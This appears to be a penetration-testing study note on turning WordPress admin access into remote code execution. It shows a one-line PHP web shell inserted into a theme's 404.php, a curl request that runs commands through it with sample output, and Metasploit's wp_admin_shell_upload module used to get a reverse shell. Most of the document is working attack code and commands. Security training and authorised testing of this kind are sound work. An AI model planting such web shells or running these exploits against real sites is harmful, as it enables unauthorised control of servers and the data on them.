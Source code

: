 ## [[Cybersecurity/Remote Code Execution\|RCE]] via the Theme Editor

### Attacking the WordPress Backend

If we're admin we can setup RCE on the backend by editing the theme in the theme editor.

Choose an unused theme and choose a non-critical file like the `404.php` to modify and add a web shell.
```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```
Use with cURL:
```shell-session
$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

## Attacking with Metasploit

### Automating Wordpress Exploitation

If you have an account that can create files on the webserver then you can use Metasploit to create a reverse shell. Start the msfconsole and do `search wp_admin`.
```shell-session
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

Select the module using `use 0`. Use the `options` command to set options.
```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host

```